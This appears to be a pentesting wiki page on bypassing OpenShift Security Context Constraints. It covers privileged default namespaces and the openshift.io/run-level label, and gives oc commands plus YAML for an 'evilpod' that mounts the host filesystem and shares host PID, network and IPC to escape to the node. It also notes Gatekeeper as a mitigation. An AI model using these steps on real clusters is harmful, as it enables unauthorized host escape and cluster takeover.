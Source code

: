 # Openshift - SCC bypass

**The original author of this page is** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Privileged Namespaces

By default, SCC does not apply on following projects :

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

If you deploy pods within one of those namespaces, no SCC will be enforced, allowing for the deployment of privileged pods or mounting of the host file system.

## Namespace Label

There is a way to disable the SCC application on your pod according to RedHat documentation. You will need to have at least one of the following permission :

- Create a Namespace and Create a Pod on this Namespace
- Edit a Namespace and Create a Pod on this Namespace

```bash
$ oc auth can-i create namespaces
  yes

$ oc auth can-i patch namespaces
  yes
```

The specific label`openshift.io/run-level` enables users to circumvent SCCs for applications. As per RedHat documentation, when this label is utilized, no SCCs are enforced on all pods within that namespace, effectively removing any restrictions.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Add Label

To add the label in your namespace :

```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```

To create a namespace with the label through a YAML file:

```yaml
apiVersion: v1
kind: Namespace
metadata:
  name: evil
  labels:
    openshift.io/run-level: 0
```

Now, all new pods created on the namespace should not have any SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$                                            
</strong></code></pre>

In the absence of SCC, there are no restrictions on your pod definition. This means that a malicious pod can be easily created to escape onto the host system.

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: evilpod
  labels:
    kubernetes.io/hostname: evilpod
spec:
  hostNetwork: true #Bind pod network to the host network
  hostPID: true #See host processes
  hostIPC: true #Access host inter processes
  containers:
    - name: evil
      image: MYIMAGE
      imagePullPolicy: IfNotPresent
      securityContext:
        privileged: true
        allowPrivilegeEscalation: true
      resources:
        limits:
          memory: 200Mi
        requests:
          cpu: 30m
          memory: 100Mi
      volumeMounts:
        - name: hostrootfs
          mountPath: /mnt
  volumes:
    - name: hostrootfs
      hostPath:
        path:
```

Now, it has become easier to escalate privileges to access the host system and subsequently take over the entire cluster, gaining 'cluster-admin' privileges. Look for **Node-Post Exploitation** part in the following page :

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Custom labels

Furthermore, based on the target setup, some custom labels / annotations may be used in the same way as the previous attack scenario. Even if it is not made for, labels could be used to give permissions, restrict or not a specific resource.

Try to look for custom labels if you can read some resources. Here a list of interesting resources :

- Pod
- Deployment
- Namespace
- Service
- Route

```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```

## List all privileged namespaces

```bash
$ oc get project -o yaml | grep 'run-level' -b5
```

## Advanced exploit

In OpenShift, as demonstrated earlier, having permission to deploy a pod in a namespace with the `openshift.io/run-level`label can lead to a straightforward takeover of the cluster. From a cluster settings perspective, this functionality **cannot be disabled**, as it is inherent to OpenShift's design.

However, mitigation measures like **Open Policy Agent GateKeeper** can prevent users from setting this label.

To bypass GateKeeper's rules and set this label to execute a cluster takeover, **attackers would need to identify alternative methods.**

## References

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)




